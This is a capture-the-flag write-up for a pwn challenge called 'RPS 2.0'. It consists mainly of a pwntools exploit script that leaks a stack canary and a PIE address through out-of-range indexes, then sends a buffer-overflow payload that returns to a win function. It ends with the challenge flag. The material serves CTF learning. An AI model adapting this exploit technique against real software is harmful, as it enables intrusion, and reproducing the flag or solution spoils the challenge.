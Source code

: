 Title: RPS 2.0

Description:
```
Rock Paper Scissors QOL Update, hope you like it~

nc alpha.8059blank.ml 3000
nc beta.8059blank.ml 3000

Author: Lucas
```

Given files: [rglddwapswthssf.jpg](https://github.com/Coder-Here/HACK-AC-2022-CTF/blob/main/Pwn/RPS%202.0/rglddwapswthssf.jpg "rglddwapswthssf.jpg") [rps2](https://github.com/Coder-Here/HACK-AC-2022-CTF/blob/main/Pwn/RPS%202.0/rps2 "rps2") [rps2.c](https://github.com/Coder-Here/HACK-AC-2022-CTF/blob/main/Pwn/RPS%202.0/rps2.c "rps2.c")

Need to get canary. Let's fuzz it.

Code to solve:

```python
from pwn import *

elf = context.binary = ELF('./rps2')
rop = ROP(elf)
#p = process()
#input()
p = remote('alpha.8059blank.ml', 3000)

moves = [ "Rock", "Gun", "Lightnig", "Devil", "Dragon", "Water", "Air", "Paper", "Sponge", "Wolf", "Tree", "Human",\
"Snake", "Scissors", "Fire"]

def i_win():
    p.recvuntil(b'I choose ')
    bot = moves.index(p.recvline().strip().decode())
    me = str((bot + 2) % 15 + 1).encode()
    return me

# How to obtain this index? 
# run fuzzer.py, look for the first value OUTSIDE of ur array that ends with 00. these usually indicate canaries which
# always end with 00. Note that it should be very close to the end of your array.
p.clean()
p.sendline("18")
p.recvuntil(b'You chose ')
canary = u64(p.recvline().strip().rjust(8, b'\x00'))
print(hex(canary))


# How to obtain this index? 
# run fuzzer.py, look for the first value that has 0x55 or 0x56. these usually indicate PIE addresses since PIE always
# starts with 0x55 or 0x56.
# there's another one at -183, but -31 is easier to use cos -183 points to unknown addr 
p.sendline("-31")
p.recvuntil(b'You chose ')
pie = u64(p.recvline().strip().ljust(8, b'\x00'))
print(hex(pie))

# shld be 0x55...970

pie = pie - 0x970
print(hex(pie))
print(hex(pie + elf.symbols.win)) # we want this :)

# clear tutorial
p.sendline(i_win())

p.sendline(i_win())
p.sendline(i_win())
p.sendline(i_win())
p.sendline(i_win())
win = i_win()
payload = flat(
    win + b'A'*(8 - len(win)),
    canary,
    b'A'*8,
    pie + rop.ret.address, # movaps issue - ask in discord if not sure what this is
    pie + elf.symbols.win,
)
print(payload)
p.sendline(payload)
p.interactive()
```

Flag: ACSI{sp0nge_b3ats_gun_a46h01}
